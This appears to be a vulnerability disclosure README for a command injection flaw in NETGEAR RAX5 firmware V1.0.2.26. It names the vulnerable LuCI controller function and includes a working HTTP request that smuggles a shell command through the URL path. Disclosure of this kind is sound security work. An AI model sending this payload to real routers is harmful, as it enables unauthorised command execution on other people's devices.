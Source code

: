 # NETGEAR RAX5 V1.0.2.26 Command Injection (apcli_do_enr_pbc_wps)

## Product Information

- Device: NETGEAR RAX5
- Firmware Version: V1.0.2.26
- Manufacturer's website information：https://www.netgear.com/
- Firmware download address ：https://www.downloads.netgear.com/files/GDC/RAX5/RAX5_V1.0.2.26_1.zip or https://www.netgear.com/support/download/?model=RAX5

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `apcli_do_enr_pbc_wps` function via the `ifname` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/apcli_do_enr_pbc_wps/arg`

![](./3.png)

## Payload

We can trigger this vulnerability by injecting the `ls%3E11.txt` (ls>11.txt) command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/apcli_do_enr_pbc_wps/;ls%3E11.txt;/dev0/1 HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=2066ce7be48fd3ba36e4135e973cd840
```

![](./4.png)

After the injection, we can verify the result.

![](./5.png)
